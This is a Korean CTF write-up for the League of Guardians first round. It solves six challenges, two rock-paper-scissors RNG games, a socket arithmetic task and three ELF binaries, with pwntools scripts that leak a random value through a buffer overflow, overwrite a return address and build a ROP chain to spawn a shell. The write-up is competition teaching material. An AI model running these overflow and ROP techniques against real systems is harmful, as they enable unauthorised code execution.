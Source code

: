 ```yaml
---
layout: post
title: League of guardians 1차전 write-up
---
```


League of guardians write up.md
=
사이버 가디언즈 1차전에서 푼  풀이이다.

Randomgame1(misc) 
-
 nc로 접속하면 가위바위보를 한다. 바이너리를 아이다로 까보면 rand로 값을 만들고 win을 9번보다 많이 해야한다. 고로 다 이기면 된다. rand값을 이길려면 어쩌지 생각하다가 시드가 일정시간마다 바뀌는 것을 알았다. 

그래서 동시간에 세션을 2개 열어놓고 첫 번째 세션에서 나온 값을 토대로 win을 하기 위한 경우를 파악한 뒤 다 이겨주면 flag를 얻을 수 있다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",9292)
s2 = remote("52.79.210.195",9292)

win_list = []

for i in range(0,10):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		win_list.append("1")
	elif result == "You lose!\n":
		win_list.append("2")
	else: win_list.append("3")

for i in range(0,10):
	s2.sendlineafter(": ",win_list[i])
	s2.recvuntil("You win!\n\n")

log.success(s2.recvline())
```
`flag{YoU_R_V3ry_Lucky_GUY!@#$}`

**![](https://lh5.googleusercontent.com/q7EduuOmhIZLizW0dxuKq0uCN87HIR5eL-UReD_OeUHvCioHfmWVEi64-rKsEInR7jV_0-3upmmj69W7dfZhlwWtXUVd_F3erutuJAx1nO_8AisjZA2ve28LFvx6HN_XsGPiGGRz)**

pang(misc)
-
이 문제는 그냥 pwntool이나 파이썬 소켓을 이용하면 풀리는 문제이다. random1 값이 나온 것을 그대로 입력하고 random2 나온 값을 input2로  또 입력하고 str(int(ran2[0].encode("hex"),16) * ran1)한 값을 input3에 입력하면 플래그가 나온다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",13001)

s.recvuntil('ran1 : ')
ran1=str(s.recv(14))
s.recvuntil('input random!\n\n')
s.sendline(ran1)
s.recvuntil('ran2 : ')
ran2=str(s.recv(20))
s.recvuntil('input random2!\n\n')
s.sendline(ran2)

s.recv()
input3=str(int(ran2[0].encode("hex"),16) * float(ran1))[:14]
log.info(input3)
s.sendline(input3)
s.interactive()
```


Randomgame2(pwn)
-
Randomgame1과 같은 방법이지만 조금 pwnable적 지식이 더해져서 pwn으로 나왔다. 바이너리를 아이다로 까보면

**![](https://lh5.googleusercontent.com/t4wJeY9EiKzl3YFpCRix7_HWC0wnye0IE96gTPJVch8D8CSFs3NyspajrYQc1drG3CiLZGwMlSmwDq5SpVv963f6F_wcKKu44Cpq1ZCe8EE_X4fRanBVvuaFRSTYYGuSbC-QE56j)** 

게임을 지면 --v8가 되고 이기면 ++v8이 된다. 그리고 v8 > v10(-3으로 초기화 되어있음)이면 cat flag를 해준다. 
하지만 여기서 핵심은 v8은 

**![](https://lh4.googleusercontent.com/oFO3vrLSeIoV5tgF7EjlooK_zY9vH2ElowMnlfSWm4XJw-V3tkgGtycSckMjsWGHynyHVPk6k0m3QPAcGr85hSJGnWm-8U6KV2FOFNHU4biXKyVokg5Li0MFAWdSrhI47JMG9Yev)**

unsigned로 선언 되어있다. 음수를 포함하지 않는다. 따라서 첫 바이트가 음과 양을 판단하기 때문에 -3보다 클려면 -4, -5, -6이렇게 되어야 한다. 따라서 가위바위보 게임에서 다 지면 된다. 

```python
from pwn import *

s = remote("52.78.156.241",4885)
s2 = remote("52.78.156.241",4885)

lose_list = []

for i in range(0,11):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		lose_list.append("3")
	elif result == "You lose!\n":
		lose_list.append("1")
	else: lose_list.append("2")

for i in range(0,11):
	s2.sendlineafter(": ",lose_list[i])
	s2.recvuntil("You lose!\n\n")

log.success(s2.recvline())
```
`flag{ThATs_t0o_BAd_y0u_R_s0_uNLucky!@#$}`

**![](https://lh3.googleusercontent.com/7SUlNCZ93Hj9bvbLftWzme1NhVaCWPgoRAcEbU2e4Lb7cJ1frwL3_St_vsTLH15RppMzlnq52zRVSPSshjr4LHkgdJ4mgE3nUxVrPpfAAs_ZbhupBhY_y68HjEdL7wsSb2SGV2Bi)**

guess(pwn)
-
elf 64bit 문제이다. 


**![](https://lh3.googleusercontent.com/vLiNCMdRejXRccUGYdu-8wsoUoOwnK0SWHPXxZDu28rnUE2zjfhZSBb_ghvaB6FskO9avRGvb274SMLYY23pXAfU3T4ip7wU1RfKkt_sUsHfixc9CXhUrRIfAMP0Z6fUdYg1UsMd)**


메모리 보호 기법은 이러하다.

**![](https://lh6.googleusercontent.com/PnE3-7HHBpG7k0CXH9gVTRmSetQAXWkrXJtkBtr-oMxqnl1kT32zIrWklVPbldhjPNWQgle29iQzuTY2yguiAKBewCy3FpMiNFvdd82d_LRRpbiSgAxshY1M7lil3iYT5Ir2-q_S)**


바이너리를 까보면 v6이라는 변수에 rand값을 넣어준다. 그리고 그 값이 입력받는 값과 같으면 system("/bin/sh")을 실행해준다. buf의 위치는 rbp-0x20, v6변수의 위치는 rbp-0x10이다. buf의 주소부터 0x1E만큼 입력을 받을 수 있으니 오버플로우를 통해 "Nice to meet you %s"에서 v6(rand)값을 leak할 수 있다.


`exploit.py`
```python
from pwn import *

s = process("./guess")
#context.log_level = 'debug'
s.recvuntil('Tell me your name')

payload = "A"*15

s.sendline(payload)
s.recvuntil("A"*15+"\n")
leak=int(u32(s.recv(4)))
print (leak)
s.recvuntil('Okay, can you guess the random number?\n')
s.send(str(leak))
s.interactive()
```


yourNAME(pwn)
-
elf 64bit 문제이다.

**![](https://lh4.googleusercontent.com/QvNUncstkqYiV7rw434ww0lgtrL8sa70f1luprMjugK3bUrT7I5kpz-y2uaSqtd1ux-cWPdKruMs3UHs-75YdYanzwpueu8Nc7PPyX_fMzpO2Bl4k67-wI1_mOZ3wmYX16f77zAr)**

메모리 보호기법은 이러하다.


**![](https://lh6.googleusercontent.com/SCTbr3vyc1Sj1taF7wT8M9qhswYgo0aYVorKvjPHgK17Z8En912wM4w5YkuP3lRdmI1p-h09nB6Au7VrUorucXK1MSRREuRPaDKfwqWniISEX98OnIMEFZ0_Pd-I_Tl9yAEE3b3a)**


scanf에서 overflow가 발생한다. 그리고 바이너리를 잘 보면,


**![](https://lh5.googleusercontent.com/Ci3PNYMGNgRajSF1XWTosYk25c9Mwy1LUL55v6oIOdcPVYEniya88Q14oFAdsIUXhMtfsLt_8caOcKvAOa9tVauDj9NSpX6bEzvC2F4EYKE9uDQM73D4l8V67ISUVZd2B3i5-eYg)**

이런 함수가 있다. 위에 if문 무시하고

**![](https://lh6.googleusercontent.com/05KfovEsbj5EtXQcKq5sLQ2e4QbGoCVrWsVnF6bmeWghbTsdsewz0GbKjjsPZwIFr7okjByOfCWdD62Xvb5FprurEHQKopHy6UpwSuyWwxX-MgGQlO5uq-ARB19d3a8iN8IYtM9o)**

이 주소만 쓱싹해서 ret에 박으면 된다. 

`exploit.py`
```python
from pwn import *

s = remote("52.78.156.241",14191)
context.log_level = 'debug'

pr = 0x004008c3
binsh = 0x004008F0
payload = "A"*40
payload += p64(0x400788) #oneshot

s.sendlineafter('What your name?\n',payload)
s.interactive()
```

dance(pwn)
-
elf 64bit이다. 

**![](https://lh3.googleusercontent.com/zqGxI6OzffXPvUUKKCcoj2K6pkDZWdDEaS2-jsrGwyY4fAx98GCxerYp3DPCDaS31beGovx_rDGosIEbI7yqZe_eU7kk3SUgAnI4MKtU5_c-iMSFO8Efyz51DSkgaYh-l_Bf-6Xz)**

NX가 활성화 되어있다. 

아이다로 분석하면, 1번 메뉴나 2번 메뉴 scanf에서 overflow가 가능하다. 그리고 welldone 함수에서 system함수가 사용되었다.

 ROP할 때 system인자로 넘겨 줄 /bin/sh가젯은  바이너리 안에 있는 심볼인 fflush의 뒤에 sh부분만 사용하면 된다. 그리고 prdi 가젯을 사용하면 안 되고, gadget()에 있는 pop rdi, pop rbp, ret을 사용해야 한다. 

`exploit.py`
```python
from pwn import *

s = process("./dance")

sh = 0x40046f
pprdi = 0x4008fa
system = 0x400760

s.recvuntil("4. exit\n")
s.sendline("1")
s.recvuntil("!\n")

payload = "wellwell"
payload += "A"*64
payload += p64(pprdi)
payload += p64(sh)
payload += p64(0)
payload += p64(system)

s.sendline(payload)
s.interactive()
```
